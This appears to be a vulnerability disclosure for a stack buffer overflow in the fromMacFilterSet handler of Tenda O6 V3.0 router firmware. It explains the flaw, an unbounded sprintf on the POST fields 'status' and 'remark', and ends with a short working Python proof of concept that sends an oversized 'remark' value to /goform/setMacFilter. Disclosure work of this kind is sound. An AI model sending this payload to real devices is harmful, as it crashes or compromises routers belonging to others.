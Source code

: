 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The  O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromMacFilterSet` function. Specifically, the variables `v69` and `v70` are assigned the values of the `status` and `remark` parameters from a POST request. Since these parameters are user-controlled, their values can be manipulated to exceed the allocated size of the `v38` array. This is due to the use of the `sprintf` function, which does not perform bounds checking on the input. As a result, a buffer overflow occurs if the combined length of `status` and `remark` surpasses the storage capacity of `v75`, leading to a potential security exploit.
![Vulnerability Function2](./20240805165019.png)

![Vulnerability Function2](./20240805165134.png)



## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/setMacFilter"
payload = b"ab"*3000

data = {"mode": "3", "remark": payload}
response = requests.post(url, data=data)

```
![Vulnerability Function2](20240805163853.png)
